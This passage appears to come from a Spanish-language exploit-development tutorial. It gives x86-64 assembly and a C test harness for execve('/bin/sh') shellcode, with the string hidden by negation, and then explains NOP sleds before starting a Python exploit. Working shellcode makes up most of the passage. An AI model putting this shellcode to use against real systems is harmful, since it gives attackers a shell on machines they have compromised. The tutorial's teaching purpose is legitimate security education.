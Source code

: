 ```
    ;mov rbx, 0x68732f6e69622fff
    ;shr rbx, 0x8
    ;mov rax, 0xdeadbeefcafe1dea
    ;mov rbx, 0xdeadbeefcafe1dea
    ;mov rcx, 0xdeadbeefcafe1dea
    ;mov rdx, 0xdeadbeefcafe1dea
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
 */

#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

#### Añadir un tobogán de **NOPS** para facilitar la ejecución.

{% hint style="info" %}
**CONSEJO**

La instrucción NOP (0x90 en hexadecimal), indica al procesador que no haga nada.

Utilizamos un "tobogán de NOPs" que nos permite asegurarnos de que la ejecución del programa caerá en él y llegará al inicio de nuestra shellcode y no a mitad.&#x20;
{% endhint %}

Vamos a empezar a preparar nuestro **exploit** en python con todo lo que hemos visto anteriormente y nuestro tobogán listo:
